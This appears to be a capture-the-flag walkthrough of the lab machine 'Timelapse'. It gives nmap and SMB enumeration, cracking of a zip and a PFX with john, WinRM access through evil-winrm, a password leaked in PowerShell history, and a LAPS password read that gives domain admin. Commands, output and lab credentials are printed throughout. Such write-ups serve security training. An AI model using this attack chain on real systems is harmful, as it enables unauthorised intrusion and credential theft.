

# Timelapse
## Host file setup
```python
[Jun 13, 2026 - 17:56:48 (BST)] exegol-CTF timelapse # nxc smb 10.129.227.113 --generate-hosts-file /etc/hosts 
SMB         10.129.227.113  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:timelapse.htb) (signing:True) (SMBv1:None) (Null Auth:True)
```

## Enumeration
### Open ports
```python
# nmap -p- --min-rate=2000 -sT dc01.timelapse.htb                                                                     
Starting Nmap 7.93 ( https://nmap.org ) at 2026-06-13 17:58 BST
Nmap scan report for dc01.timelapse.htb (10.129.227.113)
Host is up (0.013s latency).
rDNS record for 10.129.227.113: DC01.timelapse.htb
Not shown: 65517 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5986/tcp  open  wsmans
9389/tcp  open  adws
49667/tcp open  unknown
49673/tcp open  unknown
49674/tcp open  unknown
49693/tcp open  unknown
49727/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 65.77 seconds
```

### Nmap
```python
# nmap -p 53,88,135,139,389,445,464,593,636,3268,3269,5986,9389 -A --min-rate=2000 -sT dc01.timelapse.htb             
Starting Nmap 7.93 ( https://nmap.org ) at 2026-06-13 18:01 BST
Nmap scan report for dc01.timelapse.htb (10.129.227.113)
Host is up (0.013s latency).
rDNS record for 10.129.227.113: DC01.timelapse.htb

PORT     STATE SERVICE           VERSION
53/tcp   open  domain            Simple DNS Plus
88/tcp   open  kerberos-sec      Microsoft Windows Kerberos (server time: 2026-06-14 01:01:25Z)
135/tcp  open  msrpc             Microsoft Windows RPC
139/tcp  open  netbios-ssn       Microsoft Windows netbios-ssn
389/tcp  open  ldap              Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ldapssl?
3268/tcp open  ldap              Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
3269/tcp open  globalcatLDAPssl?
5986/tcp open  ssl/http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_ssl-date: 2026-06-14T01:02:50+00:00; +8h00m00s from scanner time.
| ssl-cert: Subject: commonName=dc01.timelapse.htb
| Not valid before: 2021-10-25T14:05:29
|_Not valid after:  2022-10-25T14:25:29
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
| tls-alpn: 
|_  http/1.1
9389/tcp open  mc-nmf            .NET Message Framing
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
Network Distance: 2 hops
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```

## SMB (445)
Null authentication is enabled, but cannot use it to access shares or list users

### Guest access

The guest account is enabled

```python
# nxc smb dc01.timelapse.htb -u 'Guest' -p ''             
SMB         10.129.227.113  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:timelapse.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.227.113  445    DC01             [+] timelapse.htb\Guest:
```
#### Users
```python
# nxc smb dc01.timelapse.htb -u 'Guest' -p '' --rid-brute 20000
SMB         10.129.227.113  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:timelapse.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.227.113  445    DC01             [+] timelapse.htb\Guest: 
SMB         10.129.227.113  445    DC01             498: TIMELAPSE\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.129.227.113  445    DC01             500: TIMELAPSE\Administrator (SidTypeUser)
SMB         10.129.227.113  445    DC01             501: TIMELAPSE\Guest (SidTypeUser)
SMB         10.129.227.113  445    DC01             502: TIMELAPSE\krbtgt (SidTypeUser)
SMB         10.129.227.113  445    DC01             512: TIMELAPSE\Domain Admins (SidTypeGroup)
SMB         10.129.227.113  445    DC01             513: TIMELAPSE\Domain Users (SidTypeGroup)
SMB         10.129.227.113  445    DC01             514: TIMELAPSE\Domain Guests (SidTypeGroup)
SMB         10.129.227.113  445    DC01             515: TIMELAPSE\Domain Computers (SidTypeGroup)
SMB         10.129.227.113  445    DC01             516: TIMELAPSE\Domain Controllers (SidTypeGroup)
SMB         10.129.227.113  445    DC01             517: TIMELAPSE\Cert Publishers (SidTypeAlias)
SMB         10.129.227.113  445    DC01             518: TIMELAPSE\Schema Admins (SidTypeGroup)
SMB         10.129.227.113  445    DC01             519: TIMELAPSE\Enterprise Admins (SidTypeGroup)
SMB         10.129.227.113  445    DC01             520: TIMELAPSE\Group Policy Creator Owners (SidTypeGroup)
SMB         10.129.227.113  445    DC01             521: TIMELAPSE\Read-only Domain Controllers (SidTypeGroup)
SMB         10.129.227.113  445    DC01             522: TIMELAPSE\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.129.227.113  445    DC01             525: TIMELAPSE\Protected Users (SidTypeGroup)
SMB         10.129.227.113  445    DC01             526: TIMELAPSE\Key Admins (SidTypeGroup)
SMB         10.129.227.113  445    DC01             527: TIMELAPSE\Enterprise Key Admins (SidTypeGroup)
SMB         10.129.227.113  445    DC01             553: TIMELAPSE\RAS and IAS Servers (SidTypeAlias)
SMB         10.129.227.113  445    DC01             571: TIMELAPSE\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.129.227.113  445    DC01             572: TIMELAPSE\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.129.227.113  445    DC01             1000: TIMELAPSE\DC01$ (SidTypeUser)
SMB         10.129.227.113  445    DC01             1101: TIMELAPSE\DnsAdmins (SidTypeAlias)
SMB         10.129.227.113  445    DC01             1102: TIMELAPSE\DnsUpdateProxy (SidTypeGroup)
SMB         10.129.227.113  445    DC01             1601: TIMELAPSE\thecybergeek (SidTypeUser)
SMB         10.129.227.113  445    DC01             1602: TIMELAPSE\payl0ad (SidTypeUser)
SMB         10.129.227.113  445    DC01             1603: TIMELAPSE\legacyy (SidTypeUser)
SMB         10.129.227.113  445    DC01             1604: TIMELAPSE\sinfulz (SidTypeUser)
SMB         10.129.227.113  445    DC01             1605: TIMELAPSE\babywyrm (SidTypeUser)
SMB         10.129.227.113  445    DC01             1606: TIMELAPSE\DB01$ (SidTypeUser)
SMB         10.129.227.113  445    DC01             1607: TIMELAPSE\WEB01$ (SidTypeUser)
SMB         10.129.227.113  445    DC01             1608: TIMELAPSE\DEV01$ (SidTypeUser)
SMB         10.129.227.113  445    DC01             2601: TIMELAPSE\LAPS_Readers (SidTypeGroup)
SMB         10.129.227.113  445    DC01             3101: TIMELAPSE\Development (SidTypeGroup)
SMB         10.129.227.113  445    DC01             3102: TIMELAPSE\HelpDesk (SidTypeGroup)
SMB         10.129.227.113  445    DC01             3103: TIMELAPSE\svc_deploy (SidTypeUser)
SMB         10.129.227.113  445    DC01             5101: TIMELAPSE\TRX (SidTypeUser)
```
I can adapt this command slightly to pull out users from this output and place them in a users file

```python
# nxc smb dc01.timelapse.htb -u 'Guest' -p '' --rid-brute 20000 | grep '(SidTypeUser)' | cut -d '\' -f 2 | cut -d ' ' -f 1 > users.txt
```
This has placed all the users in a user file

No users are AS-REP roastable

None of the users has the username as their password
#### Shares
```python
# nxc smb dc01.timelapse.htb -u 'Guest' -p '' --shares                                                                                
SMB         10.129.227.113  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:timelapse.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.227.113  445    DC01             [+] timelapse.htb\Guest: 
SMB         10.129.227.113  445    DC01             [*] Enumerated shares
SMB         10.129.227.113  445    DC01             Share           Permissions     Remark
SMB         10.129.227.113  445    DC01             -----           -----------     ------
SMB         10.129.227.113  445    DC01             ADMIN$                          Remote Admin
SMB         10.129.227.113  445    DC01             C$                              Default share
SMB         10.129.227.113  445    DC01             IPC$            READ            Remote IPC
SMB         10.129.227.113  445    DC01             NETLOGON                        Logon server share 
SMB         10.129.227.113  445    DC01             Shares          READ            
SMB         10.129.227.113  445    DC01             SYSVOL                          Logon server share
```
I have read access on `Shares`

## `Shares` share

```python
# smbclient.py timelapse.htb/'Guest':''@dc01.timelapse.htb   
Impacket (Exegol fork) v0.13.0.dev0+20250723.125503.b5db2dd7 - Copyright Fortra, LLC and its affiliated companies 

Password:
Type help for list of commands
# shares
ADMIN$
C$
IPC$
NETLOGON
Shares
SYSVOL
# use Shares
# ls
drw-rw-rw-          0  Mon Oct 25 16:55:14 2021 .
drw-rw-rw-          0  Mon Oct 25 16:55:14 2021 ..
drw-rw-rw-          0  Mon Oct 25 20:40:06 2021 Dev
drw-rw-rw-          0  Mon Oct 25 16:55:14 2021 HelpDesk
# cd Dev
# ls
drw-rw-rw-          0  Mon Oct 25 20:40:06 2021 .
drw-rw-rw-          0  Mon Oct 25 20:40:06 2021 ..
-rw-rw-rw-       2611  Mon Oct 25 22:05:30 2021 winrm_backup.zip
# get winrm_backup.zip
# cd ../HelpDesk
# ls
drw-rw-rw-          0  Mon Oct 25 16:55:14 2021 .
drw-rw-rw-          0  Mon Oct 25 16:55:14 2021 ..
-rw-rw-rw-    1118208  Mon Oct 25 16:55:14 2021 LAPS.x64.msi
-rw-rw-rw-     104422  Mon Oct 25 16:55:14 2021 LAPS_Datasheet.docx
-rw-rw-rw-     641378  Mon Oct 25 16:55:14 2021 LAPS_OperationsGuide.docx
-rw-rw-rw-      72683  Mon Oct 25 16:55:14 2021 LAPS_TechnicalSpecification.docx
# mget *
[*] Downloading LAPS.x64.msi
[*] Downloading LAPS_Datasheet.docx
[*] Downloading LAPS_OperationsGuide.docx
[*] Downloading LAPS_TechnicalSpecification.docx
# 
```
Found some interesting files in here 

None of the docx files are interesting, neither is the MSI

But the .zip file is password protected so ill use zip2john to try and make a crackable hash

### Cracking .zip hash

```python
# zip2john winrm_backup.zip > winrm_backup.hash    
ver 2.0 efh 5455 efh 7875 winrm_backup.zip/legacyy_dev_auth.pfx PKZIP Encr: TS_chk, cmplen=2405, decmplen=2555, crc=12EC5683 ts=72AA cs=72aa type=8
Note: It is normal for some outputs to be very large
```
Now i have a crackable hash

```python
# john winrm_backup.hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Note: Passwords longer than 21 [worst case UTF-8] to 63 [ASCII] rejected
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
supremelegacy    (winrm_backup.zip/legacyy_dev_auth.pfx)     
1g 0:00:00:00 DONE (2026-06-13 18:23) 2.941g/s 10215Kp/s 10215Kc/s 10215KC/s surken201..superkaushal2
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
The hash cracked straight away

```python
# unzip winrm_backup.zip 
Archive:  winrm_backup.zip
[winrm_backup.zip] legacyy_dev_auth.pfx password: 
  inflating: legacyy_dev_auth.pfx
```
It has given me a pfx

Which is password protected so ill try crack this with john too

```python
# pfx2john.py legacyy_dev_auth.pfx > pfx.hash
```
Now i have the hash for it i can crack it

```python
# john pfx.hash --wordlist=/usr/share/wordlists/rockyou.txt         
Using default input encoding: UTF-8
Loaded 1 password hash (pfx, (.pfx, .p12) [PKCS#12 PBE (SHA1/SHA2) 128/128 SSE2 4x])
Cost 1 (iteration count) is 2000 for all loaded hashes
Cost 2 (mac-type [1:SHA1 224:SHA224 256:SHA256 384:SHA384 512:SHA512]) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: Passwords longer than 16 [worst case UTF-8] to 48 [ASCII] rejected
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
thuglegacy       (legacyy_dev_auth.pfx)     
1g 0:00:02:15 DONE (2026-06-13 18:36) 0.007355g/s 23766p/s 23766c/s 23766C/s thuglife03282006..thug209
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
The hash cracked

## Access over winrm as `legacyy`



After opening the file in my archive manager and entering the password i see there is an RSA key

```python
# openssl pkcs12 -in legacyy_dev_auth.pfx -out legacyy.key -nocerts -nodes

# openssl pkcs12 -in legacyy_dev_auth.pfx -out legacyy.pem -nokeys -clcerts
```
Now ill run these two commands to extract the data i need from it

```python
# evil-winrm -i dc01.timelapse.htb -u legacyy -c legacyy.pem -k legacyy.key -S
                                        
Evil-WinRM shell v3.7
                                        
Warning: SSL enabled
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\legacyy\Documents> 
```

I now have access over winrm

## Powershell history leads to user compromise

```python
*Evil-WinRM* PS C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline> type ConsoleHost_history.txt
whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -
SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit
```
Found a password for the user `svc_deploy`

```python
svc_deploy:E3R$Q62^12p7PLlC%KWaxuaV
```

```python
# nxc smb dc01.timelapse.htb -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV'                     
SMB         10.129.227.113  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:timelapse.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.227.113  445    DC01             [+] timelapse.htb\svc_deploy:E3R$Q62^12p7PLlC%KWaxuaV
```
This user is now compromised

```python
# nxc winrm dc01.timelapse.htb -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV'     
WINRM-SSL   10.129.227.113  5986   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:timelapse.htb) 
WINRM-SSL   10.129.227.113  5986   DC01             [+] timelapse.htb\svc_deploy:E3R$Q62^12p7PLlC%KWaxuaV (admin)
```

```python
# evil-winrm -i dc01.timelapse.htb -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' -S
                                        
Evil-WinRM shell v3.7
                                        
Warning: SSL enabled
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc_deploy\Documents>
```
Now ill upload sharphound then ingest this into bloodhound

```python
*Evil-WinRM* PS C:\Users\svc_deploy> .\SharpHound.exe -c All

...[SNIP]...

*Evil-WinRM* PS C:\Users\svc_deploy> download 20260613200441_BloodHound.zip
                                        
Warning: Remember that in docker environment all local paths should be at /data and it must be mapped correctly as a volume on docker run command
                                        
Info: Downloading C:\Users\svc_deploy\20260613200441_BloodHound.zip to 20260613200441_BloodHound.zip
                                        
Info: Download successful!
```
Now i can run bloodhound and ingest this into bloodhound

## Domain Admin

```python
*Evil-WinRM* PS C:\Users\svc_deploy> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                          Attributes
=========================================== ================ ============================================ ==================================================
Everyone                                    Well-known group S-1-1-0                                      Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                     Mandatory group, Enabled by default, Enabled group
TIMELAPSE\LAPS_Readers                      Group            S-1-5-21-671920749-559770252-3318990721-2601 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10                                  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448
*Evil-WinRM* PS C:\Users\svc_deploy> 
```
It looks like im part of an interesting group, `LAPS_Readers`

```python
*Evil-WinRM* PS C:\Users\svc_deploy> Get-ADComputer DC01 -property 'ms-mcs-admpwd'


DistinguishedName : CN=DC01,OU=Domain Controllers,DC=timelapse,DC=htb
DNSHostName       : dc01.timelapse.htb
Enabled           : True
ms-mcs-admpwd     : mL.Fe-Iu!iIm[}h(&)/LT650
Name              : DC01
ObjectClass       : computer
ObjectGUID        : 6e10b102-6936-41aa-bb98-bed624c9b98f
SamAccountName    : DC01$
SID               : S-1-5-21-671920749-559770252-3318990721-1000
UserPrincipalName :


*Evil-WinRM* PS C:\Users\svc_deploy> 
```
Now i have the password for the Administrator and i can get a shell

```python
nxc smb dc01.timelapse.htb -u 'Administrator' -p 'mL.Fe-Iu!iIm[}h(&)/LT650'
SMB         10.129.227.113  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:timelapse.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.227.113  445    DC01             [+] timelapse.htb\Administrator:mL.Fe-Iu!iIm[}h(&)/LT650 (admin)
```
As seen here the administrator is compromised

```python
# evil-winrm -i dc01.timelapse.htb -u Administrator -p 'mL.Fe-Iu!iIm[}h(&)/LT650' -S
                                        
Evil-WinRM shell v3.7
                                        
Warning: SSL enabled
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```
Domain admin!
